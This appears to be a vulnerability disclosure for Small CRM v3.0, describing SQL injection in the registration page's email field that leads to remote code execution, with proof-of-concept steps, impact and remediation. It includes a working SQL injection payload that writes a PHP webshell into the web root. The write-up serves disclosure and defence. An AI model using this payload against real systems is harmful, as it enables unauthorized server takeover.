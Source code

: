# CVE-2024-xxxx
# Vulnerability Description

The Registration page on Small CRM v3.0 is vulnerable to SQL injection, allowing unauthorized remote code execution (RCE). This vulnerability arises from inadequate input validation in the email input field, coupled with the absence of parameterized queries.

## Step by Step POC

1. Navigate to the registration page.
3. Fill out all the fields and intercept the request.
   - ![Intercepted Request](reg_req.png)
5. Send the intercepted request to the repeater and drop it.
7. Inject a SQL injection payload into the email field, observing its execution.
   - ![Payload Execution](sqli_payload.png)
9. Modify the payload to create a webshell on the server and utilize it to generate the file.
10. Access the URL associated with the generated file, triggering its execution.
    - ![RCE](rce.png)

### Payload for SQLI
```sql
'+AND+1337=1337+union+all+select+"<?php+echo+shell_exec($_GET['cmd']);?>"INTO+OUTFILE+'C:\\xampp\\htdocs\\webshell.php'#
```
## Impact

The described vulnerability and proof of concept (PoC) pose severe risks, including unauthorized access, remote code execution (RCE), system compromise.

## Remediation

Implement strict input validation, use parameterized queries, provide security training.

## Screenshots
![Affected Code](code.png)


